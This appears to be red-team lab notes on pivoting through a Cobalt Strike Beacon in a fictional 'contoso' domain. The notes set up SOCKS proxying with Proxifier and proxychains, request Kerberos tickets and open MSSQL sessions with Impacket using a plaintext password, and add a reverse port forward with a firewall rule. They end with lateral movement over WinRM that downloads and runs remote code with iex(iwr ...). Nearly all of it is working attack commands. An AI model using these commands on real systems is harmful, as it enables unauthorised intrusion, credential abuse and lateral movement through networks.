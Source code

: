 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'

Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.124.1 enc-dc-1 enc-dc-1.contoso.enclave'
```

```powershell
10.10.120.1 lon-dc-1 lon-dc-1.contoso.com
10.10.124.50 enc-dc-1 enc-dc-1.contoso.enclave
10.10.124.1 enc-jmp-1 enc-jmp-1.contoso.enclave
10.10.124.10 enc-fs-1 enc-fs-1.contoso.enclave
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

##### Proxifier
1. Go **Profile** > **Proxy Servers** and add a new proxy server.
	- Address: `teamserver_ip`
	- Port: 1080
	- Protocol: Version 5
	- Use this proxy by default? -> No.
2. Go **Profile** > **Proxification Rules** and add the following rule
	- Name: Beacon
	- Applications: Any
	- Target hosts: 10.10.120.0/23
	- Target ports: Any
	- Action: Proxy SOCKS5 10.0.0.5

##### Proxychains

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```

---

##### Reverse Port Forward

Create port forward on foothold machine
```powershell
rportfwd 28190 localhost 80

run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Perform lateral movement
```powershell
remote-exec winrm lon-ws-1 iex(iwr http://lon-wkstn-1:28190/test -useb)
```